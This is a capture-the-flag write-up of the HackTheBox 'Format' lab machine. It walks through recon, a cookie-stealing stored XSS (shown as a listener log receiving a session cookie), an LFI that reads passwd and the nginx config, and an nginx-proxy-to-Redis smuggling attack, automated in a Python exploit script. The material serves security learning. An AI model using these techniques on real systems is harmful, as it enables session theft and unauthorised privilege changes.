




## Enum

```bash
nmap -sC -sV 10.10.11.213 -oN scans/nmap.initial
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 22:20 IST
Nmap scan report for 10.10.11.213
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 c397ce837d255d5dedb545cdf20b054f (RSA)
|   256 b3aa30352b997d20feb6758840a517c1 (ECDSA)
|_  256 fab37d6e1abcd14b68edd6e8976727d7 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
3000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

```bash
curl http://10.10.11.213
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Refresh" content="0; url='http://app.microblog.htb'" />
</head>
<body>
</body>
</html>
```

  
  
  

After registering we can create micro blogs which create vhosts on the box  

Checking for vhosts, there's a `sunny` subdomain
```bash
[blnkn@Kolossus](main %=):~/blnknlights.github.io/htb/machines/format% ffuf \                     2 ⨯
  -c \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u "http://microblog.htb" \
  -H "Host: FUZZ.microblog.htb" -mc all -fs 153

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://microblog.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.microblog.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 153
________________________________________________

[Status: 200, Size: 3976, Words: 899, Lines: 84, Duration: 34ms]
    * FUZZ: app

[Status: 200, Size: 3732, Words: 630, Lines: 43, Duration: 30ms]
    * FUZZ: sunny

:: Progress: [114441/114441] :: Job [1/1] :: 1156 req/sec :: Duration: [0:01:32] :: Errors: 0 ::
```

```bash
dirsearch -r -u http://app.microblog.htb     1 ⚙

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/blnkn/.dirsearch/reports/app.microblog.htb/_23-05-16_22-38-34.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-05-16_22-38-34.log

Target: http://app.microblog.htb/

[22:38:34] Starting:
[22:38:45] 301 -  169B  - /dashboard  ->  http://app.microblog.htb/dashboard/     (Added to queue)
[22:38:47] 200 -    4KB - /index.php
[22:38:48] 301 -  169B  - /login  ->  http://app.microblog.htb/login/     (Added to queue)
[22:38:49] 200 -    2KB - /login/
[22:38:49] 301 -  169B  - /logout  ->  http://app.microblog.htb/logout/     (Added to queue)
[22:38:49] 302 -    0B  - /logout/  ->  /
[22:38:53] 301 -  169B  - /register  ->  http://app.microblog.htb/register/     (Added to queue)
[22:38:58] Starting: dashboard/
[22:39:11] 302 -    0B  - /dashboard/index.php  ->  /login
[22:39:22] Starting: login/
[22:39:36] 200 -    2KB - /login/index.php
[22:39:46] Starting: logout/
[22:39:59] 302 -    0B  - /logout/index.php  ->  /
[22:40:11] Starting: register/
[22:40:24] 200 -    3KB - /register/index.php

Task Completed
```

We did see from the nmap scan that there's something running on port 3000, and looking at the source of the `index.php` we can see `http://microblog.htb:3000/cooper/microblog` which is a gitea instance
```bash
curl -I http://microblog.htb:3000/cooper/microblog
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 16 May 2023 21:41:24 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Cache-Control: no-store, no-transform
Set-Cookie: i_like_gitea=69b905e6e0e48a99; Path=/; HttpOnly; SameSite=Lax
Set-Cookie: _csrf=9KvfiQ3HwbuEw-YB960l5yIh5m46MTY4NDI3MzI4NDEzMjUwMTQwMA; Path=/; Expires=Wed, 17 May 2023 21:41:24 GMT; HttpOnly; SameSite=Lax
Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
X-Frame-Options: SAMEORIGIN
```

We can now read through the source code, and there are a lot of interesting things to note.  

There's a `pro` feature that give an additional feature to upload images in the blogs, it has some input validation, but maybe we can get around those to upload a shell for some sort


## XSS (red herring)

One of the first things I noted is that there isn't really any input validation in the `txt` field creation, nor in the header one
```php
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
chdir(getcwd() . "/../content");
$txt_nl = nl2br($_POST['txt']);
$html = "<div class = \"blog-text\">{$txt_nl}</div>";
$post_file = fopen("{$_POST['id']}", "w");
fwrite($post_file, $html);
fclose($post_file);
$order_file = fopen("order.txt", "a");
fwrite($order_file, $_POST['id'] . "\n");  
fclose($order_file);
header("Location: /edit?message=Section added!&status=success");
}
```

And that makes it vulnerable to XSS, so if I setup some stored XSS in my blog and another user with access to the pro feature visits my blog, I'll be able to steal his cookie, and log in as him, which would let me access the pro feature

```javascript

```

And it works, but of course all this sounds too easy for HTB, and this is probably just a red herring
```bash
ncat -lvnkp 4242
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.14.207.
Ncat: Connection from 10.10.14.207:53356.
GET /?c=username=l35fl0r1da0o8s2tdc4ku78g92 HTTP/1.1
Host: 10.10.14.207:4242
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://asdf.microblog.htb/
```

## LFI

There's also an `LFI` in the `id` param when creating `h1` headers or a `txt` field in the `edit/index.php` 
```php
//add header
if (isset($_POST['header']) && isset($_POST['id'])) {
chdir(getcwd() . "/../content");
$html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
$post_file = fopen("{$_POST['id']}", "w");
fwrite($post_file, $html);
fclose($post_file);
$order_file = fopen("order.txt", "a");
fwrite($order_file, $_POST['id'] . "\n");  
fclose($order_file);
header("Location: /edit?message=Section added!&status=success");
}
```

We can use that to start leaking stuff out  
  
  

```bash
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
cooper:x:1000:1000::/home/cooper:/bin/bash
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
```

## Nginx proxy misconfiguration leading to a blind redis injection 

At this stage it's pretty obvious that the app is using redis, and is connecting to it through a unix domain socket, but to be honest, I wouldn've never figured out any of the following without a hint.  

I was pointed to this writeup by `detectify`: [nginx proxy misconfig](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)    

And we already know this is an nginx server so we can use the LFI to get the nginx config.  
```bash
cat sites-enabled
server {
    listen 80;
    listen [::]:80;

    root /var/www/microblog/app;
    index index.html index.htm index-nginx-debian.html;

    server_name microblog.htb;

    location / {
        return 404;
    }

    location = /static/css/health/ {
        resolver 127.0.0.1;
        proxy_pass http://css.microbucket.htb/health.txt;
    }

    location = /static/js/health/ {
        resolver 127.0.0.1;
        proxy_pass http://js.microbucket.htb/health.txt;
    }

    location ~ /static/(.*)/(.*) {
        resolver 127.0.0.1;
        proxy_pass http://$1.microbucket.htb/$2;
    }
}
```
So yea! That's textbook what the detectify writeup is talking about  

Let's set up a redis container as a testing environment
```bash
docker run --rm -it redis /bin/bash
Unable to find image 'redis:latest' locally
latest: Pulling from library/redis
b5d25b35c1db: Pull complete
6970efae6230: Pull complete
fea4afd29d1f: Pull complete
7977d153b5b9: Pull complete
7945d827bd72: Pull complete
b6aa3d1ce554: Pull complete
Digest: sha256:ea30bef6a1424d032295b90db20a869fc8db76331091543b7a80175cede7d887
Status: Downloaded newer image for redis:latest
root@3a4dd12cf617:/data#
```

It's a debian base
```bash
root@3a4dd12cf617:/data# cat /etc/*release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

Installing  a few tools
```bash
apt update -y
apt install -y vim procps net-tools curl nc python3
```

The container normally would start a redis-server with default settings
```bash
docker inspect redis|jq '.[].ContainerConfig.Cmd'
[
  "/bin/sh",
  "-c",
  "#(nop) ",
  "CMD [\"redis-server\"]"
]
```

But we used /bin/bash as an entrypoint so, that overrides the entrypoint? I think?
```bash
root@3a4dd12cf617:/data# netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
root@3a4dd12cf617:/data# ps -ef|grep redis
root         458       1  0 08:52 pts/0    00:00:00 grep redis
```

In any case there's no redis server, and I don't think starting the server with default settings makes it available as a unix socket. So after googling around a little, we try to replicate something similar to what's going on inside our target.
```bash
root@3a4dd12cf617:/data# cat << ! > redis.conf
> unixsocket /var/run/redis/redis.sock
> unixsocketperm 775
> !
```

The `/var/run/redis` path doesn't exist so we're creating it
```bash
root@3a4dd12cf617:/data# mkdir -p /var/run/redis
root@3a4dd12cf617:/data#
```

Starting the server
```bash
root@3a4dd12cf617:/data# redis-server redis.conf
470:C 19 May 2023 09:06:49.645 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
470:C 19 May 2023 09:06:49.645 # Redis version=7.0.11, bits=64, commit=00000000, modified=0, pid=470, just started
470:C 19 May 2023 09:06:49.645 # Configuration loaded
470:M 19 May 2023 09:06:49.645 * monotonic clock: POSIX clock_gettime
                _._
           _.-``__ ''-._
      _.-``    `.  `_.  ''-._           Redis 7.0.11 (00000000/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._
 (    '      ,       .-`  | `,    )     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 470
  `-._    `-._  `-./  _.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |           https://redis.io
  `-._    `-._`-.__.-'_.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |
  `-._    `-._`-.__.-'_.-'    _.-'
      `-._    `-.__.-'    _.-'
          `-._        _.-'
              `-.__.-'

470:M 19 May 2023 09:06:49.646 # Server initialized
470:M 19 May 2023 09:06:49.646 # WARNING Memory overcommit must be enabled! Without it, a background save or replication may fail under low memory condition. Being disabled, it can can also cause failures without low memory condition, see https://github.com/jemalloc/jemalloc/issues/1328. To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf and then reboot or run the command 'sysctl vm.overcommit_memory=1' for this to take effect.
470:M 19 May 2023 09:06:49.647 * Ready to accept connections
470:M 19 May 2023 09:06:49.647 * The server is now ready to accept connections at /var/run/redis/redis.sock
^Z
[1]+  Stopped                 redis-server redis.conf
root@3a4dd12cf617:/data# bg
[1]+ redis-server redis.conf &
```

It created the socket
```bash
root@3a4dd12cf617:/data# ls -la /var/run/redis/redis.sock
srwxrwxr-x 1 root root 0 May 19 09:06 /var/run/redis/redis.sock
```

And also exposes it on the default redis tcp port, we won't use it though
```bash
root@3a4dd12cf617:/data# netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      0          1458107    470/redis-server *:
tcp6       0      0 :::6379                 :::*                    LISTEN      0          1458108    470/redis-server *:
```

Looking at my [notes](/other/dba/dba.md) to try and remember how things work in redis 
```bash
root@3a4dd12cf617:/data# redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> MSET hacked true
OK
redis /var/run/redis/redis.sock> MGET hacked
1) "true"
```

Talking directly to the UDS with ncat
```bash
root@3a4dd12cf617:/data# nc -U /var/run/redis/redis.sock
MGET hacked
*1
$4
true
```

[https://redis.io/commands/get/](https://redis.io/commands/get/)    
[https://redis.io/commands/mget/](https://redis.io/commands/mget/)    
[https://redis.io/commands/hget/](https://redis.io/commands/hget/)    

The php code in `sunny/edit/index.php` uses a `HGET` to check the value or the `pro` key in the user's hash, if true, we get the image upload feature
```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

So we need to do something like that:
```bash
root@3a4dd12cf617:/data# redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> HSET asdf pro true
(integer) 1
redis /var/run/redis/redis.sock> HGET asdf pro
"true"
```

According to the nginx proxy rule we've leaked through the LFI we should be able to translate a request this way:
```
http://microblog.htb/static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf
http://asdf.microbucket.htb/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20
```

So if we change the HTTP method to the relevant redis command:
```
HSET /static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf HTTP/1.1
Host: microblog.htb


```

it would correspond to this in redis-cli:
```bash
redis-cli -s unix:/var/run/redis/redis.sock HSET asdf pro true
```

And it is interesting to note that apparently curl will let you do that
Let's try it out
```bash
curl -XHSET http://microblog.htb/static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

Nice!  
  

## Automating the exploit

The users are getting wiped quite frequently, and automating that looked like a fun exercise. Also because python requests wouldn't let us do the cool trick did with curl, using an invalid HTTP method... I had to do it in raw bytes in a TCP socket. I think it helped me a lot in getting a better understanding of how the proxy exploit works since we're working directly with what the actual bytes look like in the HTTP request. 
```python
import requests
import socket
from simple_chalk import green
import sys


PROXY = 'http://127.0.0.1:8080'
DOMAIN = 'microblog.htb'
HEADERS = {'Content-Type': 'application/x-www-form-urlencoded'}
USER = sys.argv[1]


def login():
    data = f'username={USER}&password={USER}'
    url = f'http://app.{DOMAIN}/login/index.php'
    res = requests.post(url, data, headers=HEADERS, proxies={'http': PROXY})
    cookie = res.history[0].cookies.get_dict()
    return cookie


def register():
    data = f'first-name={USER}&'\
           f'last-name={USER}&'\
           f'username={USER}&'\
           f'password={USER}'
    url = f'http://app.{DOMAIN}/register/index.php'
    res = requests.post(url, data, headers=HEADERS, proxies={'http': PROXY})
    if 'successful' in res.url:
        print(f'{green("[+]")} User successfully registered')
        cookie = res.history[0].cookies.get_dict()
    if 'already' in res.url:
        print(f'{green("[+]")} User already exists')
        cookie = login()
    return cookie


def create_blog(cookies):
    data = f'new-blog-name={USER}'
    url = f'http://app.{DOMAIN}/dashboard/index.php'
    res = requests.post(
        url,
        data,
        headers=HEADERS,
        cookies=cookies,
        proxies={'http': PROXY}
    )
    if 'already' in res.url:
        print(f'{green("[+]")} Blog already exists')
    if 'successful' in res.url:
        print(f'{green("[+]")} Blog successfully created')


def brush_like_a_pro():
    """Get an oral-B toothbrush from Redis"""
    uds = 'unix:/var/run/redis/redis.sock'
    payload = f'HSET /static/{uds}:{USER}%20pro%20true%20/{USER} HTTP/1.1\r\n'\
              f'Host: {DOMAIN}'\
              '\r\n'\
              '\r\n'.encode()
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((DOMAIN, 80))
    sock.send(payload)
    res = sock.recv(4096)
    sock.close()
    if '502 Bad Gateway' in res.decode():
        print(f'{green("[+]")} You can now brush like a pro 🪥')


if __name__ == "__main__":
    cookies = register()
    create_blog(cookies)
    brush_like_a_pro()

```

```bash
python3 micro.py blnkn
[+] User successfully registered
[+] Blog successfully created
[+] You can now brush like a pro 🪥
```

  

yea boy...I'm a pro
